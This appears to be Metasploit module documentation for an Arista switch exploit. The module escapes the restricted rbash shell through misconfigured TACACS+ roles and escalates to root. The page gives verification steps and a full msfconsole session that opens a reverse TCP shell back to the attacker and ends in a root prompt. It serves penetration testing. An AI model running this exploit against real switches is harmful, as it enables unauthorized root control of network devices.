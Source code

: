 ## Description

  Implementing TACACS+ with Arista switch versions equal to or before 4.23.1F
  for "Read-Only" users can circumvent using the built-in roles supplied to
  restrict any bash  commands, leading to privilege escalation. This exploit
  is a combination of a poorly configured TACACS+ (tac_plus) AAA server and
  Arista’s alternative CLI shells.

## Vulnerable Application

  This module has been tested successfully on:

  * tac_plus Version: 202001211926/PCRE/DES

  Additional Vulnerable Tested Hardware/Software Combinations:

  * DCS-7280SRAM-48C6-R   – 4.22.0.1F
  * DCS-7050CX3-32S-R     – 4.20.11M
  * DCS-7050QX-32S-R      – 4.20.9M


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/unix/arista_tacplus_shell`
  3. `set PASSWORD <password>`
  4. `set USERNAME <username>`
  5. `set LHOST <lhost>`
  6. `set RHOST <rhost>`
  7. `check`
  8. `run`
  9. You should get a *root* session


## Scenario
```
root@kali:~/git/metasploit-framework# ./msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v5.0.92-dev-5ef76ff232               ]
+ -- --=[ 2025 exploits - 1101 auxiliary - 343 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Display the Framework log using the log command, learn more with help log

msf > search arista

Matching Modulesf
================

   #  Name                                   Disclosure Date  Rank   Check  Description
   -  ----                                   ---------------  ----   -----  -----------
   0  exploit/unix/ssh/arista_tacplus_shell  2020-02-02       great  Yes    Arista restricted shell escape (with privesc)


msf > use 0
msf exploit(unix/ssh/arista_tacplus_shell) > show options

Module options (exploit/unix/ssh/arista_tacplus_shell):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     22               yes       The target port
   USERNAME                   yes       Username to login with


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf exploit(unix/ssh/arista_tacplus_shell) > set LHOST eth0
LHOST => 10.10.10.20
msf exploit(unix/ssh/arista_tacplus_shell) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf exploit(unix/ssh/arista_tacplus_shell) > set USERNAME admin
USERNAME => admin
msf exploit(unix/ssh/arista_tacplus_shell) > set PASSWORD admin
PASSWORD => admin
msf exploit(unix/ssh/arista_tacplus_shell) > check
[+] 10.10.10.10:22 - The target is vulnerable.
msf exploit(unix/ssh/arista_tacplus_shell) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.10.20:4444
[*] 10.10.10.10:22 - Attempt to login to the Arista's restricted shell...
msf exploit(unix/ssh/arista_tacplus_shell) > [+] SSH connection established.
[*] Requesting pty rbash
[+] Pty successfully obtained.
[*] Requesting a shell.
[+] Spawned into arista rbash shell.
[*] Attempting to break out of Arista rbash...
[+] Escaped from rbash!
[*] Command shell session 1 opened (10.01.10.20:4444 -> 10.10.10.10:51153) at 2020-06-09 15:39:53 -0700
msf exploit(unix/ssh/arista_tacplus_shell) > sessions -i 1
[*] Starting interaction with 1...
bash-4.3# whoami
whoami
root
bash-4.3# exit
exit
exit
[*] 10.10.10.10 - Command shell session 1 closed.
msf exploit(unix/ssh/arista_tacplus_shell) >
```
